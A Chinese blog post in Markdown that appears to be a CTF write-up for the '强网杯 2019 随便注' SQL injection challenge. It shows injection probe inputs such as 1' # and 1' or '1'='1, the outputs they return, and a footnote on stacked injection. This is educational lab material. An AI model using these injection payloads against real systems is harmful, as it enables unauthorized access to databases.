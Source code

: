 ```yaml
---
title: "强网杯 2019 随便注 1"
gitinfo: true
share: true
comments: true
slug: "ctf_sui_bian_zhu"
images: ["https://cdn.jsdelivr.net/gh/Borber/PublicPic1/headImg/head.png"] 
description: "美丽既正义"
tags: ["美化", "博客园"]
date: 2020-06-05T07:44:04+08:00
---
```


参考教程: [简简的我](https://www.jianshu.com/p/36f0772f5ce8)

#### 方法一

1. 判断是否存在注入，注入是字符型还是数字型

   输入 `1’` 发现不回显

   输入`1' #`显示正常  [^1]

   ```javascript
   array(2) {
     [0]=>
     string(1) "1"
     [1]=>
     string(7) "hahahah"
   }
   ```

   

   应该是存在sql注入了

   输入`1' or '1'='1`,正常回显，应该是字符型

   ```javascript
   array(2) {
     [0]=>
     string(1) "1"
     [1]=>
     string(7) "hahahah"
   }
   
   array(2) {
     [0]=>
     string(1) "2"
     [1]=>
     string(12) "miaomiaomiao"
   }
   
   array(2) {
     [0]=>
     string(6) "114514"
     [1]=>
     string(2) "ys"
   }
   ```


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189)
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入